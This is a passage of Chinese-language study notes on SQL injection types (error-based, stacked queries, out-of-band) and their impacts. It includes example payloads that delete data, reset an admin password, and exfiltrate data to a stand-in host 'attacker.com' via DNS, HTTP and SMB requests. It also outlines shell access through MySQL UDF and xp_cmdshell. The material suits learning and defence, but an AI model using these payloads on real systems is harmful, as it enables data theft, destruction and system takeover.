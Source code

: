 参考 http://www.sqlinjection.net/time-based/

#### 类型3 - "基于报错的SQL注入"(error-based)

"基于报错的SQL注入"(error-based)原理:使错误消息中包含显示"所需数据",可以从数据库中直接提取敏感数据(而不是一次一个字符)

#### 类型4 - "基于联合查询的SQL注入"(UNION query-based)

temp

#### 类型5 - 堆叠查询(stacked queries)

堆叠查询(stacked queries)原理:通过分号分隔 实现执行多条SQL语句

* 攻击利用payload - 利用该漏洞"执行SQL语句" 操作数据
  * 无害延时 MySQL `SELECT * FROM products WHERE productid=1; select sleep(3)`
  * 删除数据 MySQL `SELECT * FROM products WHERE productid=1; DELETE FROM products`
  * 修改数据 MySQL `SELECT * FROM products WHERE categoryid=1; UPDATE members SET password='pwd' WHERE username='admin'`
  * ...

#### 类型6 - "带外"(out-of-band)

"带外"(out-of-band) 原理:利用目标主机A的数据库的相关函数发出"含有数据的"网络请求到服务器B  服务器B可接收到数据.

各种"盲注"的检测不稳定或无效时，常常借助"带外"实现"回显"(数据传输)

* 攻击利用payload - 利用该漏洞"执行SQL语句" 操作数据
  * 利用条件
    * 1.具体数据库具体版本的具体函数 实测能够发出网络请求
    * 2.目标主机A发出请求不被"网络限制"
  * "带外"函数
    * MySQL 发出DNS请求 - `SELECT LOAD_FILE(CONCAT('\\\\foo.',(select version()),'.attacker.com\\abc'));` 
      * 基础概念: UNC(Universal Naming Convention)路径是指Windows系统中资源的完整路径 注意UNC的路径字符串有最大长度限制
      * 利用条件: `LOAD_FILE`只支持Windows系统下的MySQL发出DNS请求，而Linux因为没有`UNC`路径所以不能
      * 注意转义: UNC名称一定以`\\`开头 如UNC名称`\\servername\sharename` 注意UNC名称中的每个`\`在MySQL中必须转义为`\\`
    * Oracle 发出HTTP请求 - `SELECT * FROM products WHERE id=1||UTL_HTTP.request('http://test.attacker.com/'||(SELECT user FROM DUAL)) --`
    * MSSQL 发出DNS请求 - `SELECT * FROM products WHERE id=1;EXEC master..xp_dirtree '\\test.attacker.com\' -- ` 扩展存储过程`xp_dirtree`用于指定的文件夹的所有文件夹的列表
    * ...

### 漏洞危害

[SQLi漏洞的各种具体利用方式【漏洞危害】 - The SQL Injection Knowledge Base](https://websec.ca/kb/sql_injection#MySQL_Writing_Files)

* 数据泄露 - 通过"带外通道"获取数据(Out Of Band Channeling)
  * DNS Requests
    * MySQL `LOAD_FILE`函数可发出DNS请求
  * SMB Requests
    * MySQL - `INTO OUTFILE`可以发出SMB请求  如 `' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt`
* 数据删除
  * MySQL `DELETE FROM some_table WHERE 1; --`
* 绕过判断
  * Auth Bypass:如web登录功能存在SQLi 使用"万能密码"实现Login Bypass
* 系统命令执行
  * 获取系统shell - 通过MySQL [实战-利用mysql数据库的udf函数执行系统命令](sec_sqlmap.md#利用mysql数据库的udf函数执行系统命令)
    * 前提条件:数据库进程(DBMS process)对目标文件夹具有文件读取、写入权限.
    * 实现原理:上传一个二进制文件 共享库(shared library)到对应文件夹，它包含两个用户自定义函数(user-defined functions,UDF)用户自定义函数,其中有2个函数的作用是执行系统命令. 然后在数据库使用SQL语句 创建该函数 并调用该函数 即可执行系统命令.
  * 获取系统shell - 通过Microsoft SQL Server
    * 前提条件:`xp_cmdshell`扩展存储过程这一配置处于开启状态，或者可以被开启
    * 利用过程:使用`xp_cmdshell`扩展存储过程(extended stored procedure)，它是SQL Server的一个配置项，启用时能让SQL Server账号执行操作系统命令，返回文本行
    * 如果`xp_cmdshell`存储过程 被禁用(Microsoft SQL Server >= 2005 默认禁用)sqlmap会重新启用它
    * 如果`xp_cmdshell`存储过程 不存在 则从头开始创建它
* 文件读写 - 前提:当前数据库user有文件读写权限(数据库用户需要为高权限用户 且数据库配置中允许了文件读写权限)